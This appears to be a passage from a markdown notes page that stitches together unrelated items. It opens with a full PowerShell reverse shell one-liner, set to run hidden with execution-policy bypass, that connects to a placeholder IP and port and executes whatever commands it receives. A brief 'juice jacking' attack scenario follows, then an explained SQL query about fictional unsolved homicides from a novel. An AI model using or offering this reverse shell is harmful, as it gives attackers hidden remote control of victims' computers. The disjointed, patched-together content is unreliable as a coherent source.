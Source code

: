 3. reverse shell

```
`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP_address",port);$stream=(New-Object System.IO.StreamReader((New-Object System.Net.Sockets.TCPClient("IP_address",port)).GetStream()));[byte[]]$bytes=0..65535|%{0};while(($i=$stream.BaseStream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback + "PS " + (pwd).Path + "> ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}`
```


scenario #2

juice jacking

1.  A victim plugs their phone into a public charging station to charge their phone.
    
2.  The charging station has been rigged with a device that looks like a normal charging port, but is actually a data connection point.
    
3.  Once the phone is connected, the malicious device begins installing malware onto the phone or accessing the phone's data.


### the girl with dragon tatoo

#### sql

```
SELECT DISTINCT v.fname, v.lname, i.year, i.location, i.report_file FROM Incident AS i LEFT JOIN Victim AS v on v.incident_id = i.id LEFT JOIN Keyword AS k ON k.incident_id = i.id WHERE i.year BETWEEN 1947 AND 1966 AND i.type = 'HOMICIDE' AND v.sex = 'F' AND i.status = 'UNSOLVED' AND ( k.keyword IN ('rape', 'decapitation', 'dismemberment', 'fire', 'altar', 'priest', 'prostitute') OR v.fname IN ('Mari', 'Magda') OR SUBSTR(v.fname, 1, 1) = 'R' AND SUBSTR(v.lname, 1, 1) = 'L' );
```


This SQL query retrieves distinct victim first names (fname), last names (lname), incident year (year), incident location (location), and incident report file (report_file) from three tables: Incident, Victim, and Keyword.

The LEFT JOIN keyword table is used to get the keywords associated with each incident, the LEFT JOIN victim table is used to get information about the victims, and the WHERE clause is used to filter the results based on specific criteria.

The following conditions must be met to include a row in the result set:

-   The incident must be a homicide (i.type = 'HOMICIDE')
-   The incident must be unsolved (i.status = 'UNSOLVED')
-   The incident must have occurred between 1947 and 1966 (i.year BETWEEN 1947 AND 1966)
-   The victim must be female (v.sex = 'F')

Additionally, any of the following criteria must be true for the incident to be included:

-   The incident must have a keyword that matches one of the following: 'rape', 'decapitation', 'dismemberment', 'fire', 'altar', 'priest', or 'prostitute' (k.keyword IN ...)
-   The victim's first name must be 'Mari' or 'Magda' (v.fname IN ...)
-   The victim's first name must start with 'R' and the last name must start with 'L' (SUBSTR(v.fname, 1, 1) = 'R' AND SUBSTR(v.lname, 1, 1) = 'L')
